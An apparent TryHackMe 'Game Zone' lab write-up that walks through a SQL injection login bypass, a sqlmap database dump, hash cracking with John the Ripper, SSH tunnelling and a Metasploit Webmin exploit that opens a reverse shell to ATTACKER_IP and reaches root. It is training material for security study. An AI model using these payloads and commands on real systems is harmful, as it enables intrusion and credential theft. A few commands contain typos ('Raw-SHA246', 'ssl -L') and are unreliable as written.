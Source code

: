 # Game Zone
* Exploit SQLi manually and using SQLMap, crack users hashed password, us SSH tunnelling to reveal a hidden service, and use Metasploit payloads to gain root privileges.

## Obtain access via SQLi
* Taget host uses `SELECT * FROM users WHERE username = :username AND password := password` SQL query within login form.
* Manipulate query to login without legitimate credentials.
  * Username = ' or 1=1 -- -
  * Password = blank
* Changes SQL query to `SELECT * FROM users WHERE username =' or 1=1 -- - AND password := password`.
  * "1=1" = true.
  * "-- -" comments out remainder of query.
## Use SQLMap
* SQLMap is popular OSS for automatic SQL injection and database takeover tool.
* Pre-installed on Kali.
* Can be installed from [here](https://github.com/sqlmapproject/sqlmap).
### Use SQLMap to dump entire database
1. Intercept request to game review search feature using BurpSuite.
2. Save request into text file.
```
POST /portal.php HTTP/1.1
Host: 10.10.72.152
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.72.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.72.152/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=9h551ujsnetbpkpeam2fsr2ki2
Connection: close

searchitem=test
```
* Pass request into SQLMap to use authenticated user session.
```
sqlmap -r request.txt --dbms=mysql --dump
```
  * `-r` uses intercepted request.
  * `--dbms` tells SQLMap the type of DBMS.
  * `--dump` attempts to output entire database.

## Crack Password with JohnTheRipper (JTR)
* JTR is fast OSS password cracker.
* Preinstalled on Kali.
* Takes wordlist, hashes it with specified algorithm, then compares it to hashed password.
* Hashes cannot be reversed.
* Can only be broken by hash comparison.
#### Use JTR to crach hash gained above
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA246
```
  * `hash.txt` contains list of hashes to crack.
  * `--wordlist` is list to use to find dehashed value.
  * `--format` is hashing algorithm to use.
## Expose Services with Reverse SSH Tunnels
* Reverse SSH port forwarding specifies that given port on remote host should be forwarded to local host and port.
![cYZsC8p](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/46543e83-ed0e-421c-a78c-4e88f5a18315)
* `-L` is local tunnel.
  * Attacker <- target host.
  * Can forward traffic to another host and view it if site is blocked.
    * E.g. imgur blocked at work
```
ssh -L 9000:imgur.com:80 user@example.com
```


    * Browse to "localhost:9000" to load imgur traffic using other server.
* `-R` is remote tunnel.
  * Attacker -> target host.
  * Attacker forwards traffic to target host for others to view.
#### Use ss tool to investigate sockets running on host
```
ss -tulpn
```

| Argument | Description
| --- | ---
| `-t` | Display TCP sockets.
| `-u` | Display UDP sockets.
| `-l` | Display only listening sockets.
| `-p` | Show process using the socket.
| `-n` | Do not resolve service names.

* Service running on port 10000 blocked on attack host via firewall rule from outside.
* Use SSH tunnel on attack host to expose port via target host.
```
ssl -L 10000:localhost:10000 agent47@TARGET_IP
```
* Browse to http://localhost:10000 on attack host to access newly-exposed webserver.
## Privilege Escalation with Metasploit
* Use CMS dashboard version (webmin 1.5.80) to find Metasploit payload to execute against target host.
* [Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/21851) found on Exploit-db.
```
msfconsole
search webmin type:exploit
use exploit/unix/webapp/webmin_show_cgi_exec
set password videogamer124
set rhosts ATTACKER_IP
set username agent47
set ssl no
show payloads
set payload payload/cmd/unix/reverse
set lhost ATTACKER_IP
exploit
```
  * Set RHOSTS to Attack Host due to SSH tunnel created earlier.
  * Set SSL to be false as the SSL tunnel is not running over HTTPS.
```
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo cClA4EYV0eVm9IvA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "cClA4EYV0eVm9IvA\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (10.10.174.232:4444 -> 10.10.72.152:53206) at 2024-02-29 17:40:57 +0000
[*] Session 2 created in the background.
```
```
sessions 1
[*] Starting interaction with 1...

whoami
root
```
* Stabilise shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
* Find root flag.
```
cd /
find / -name "root.*" -user root 2>/dev/null
```
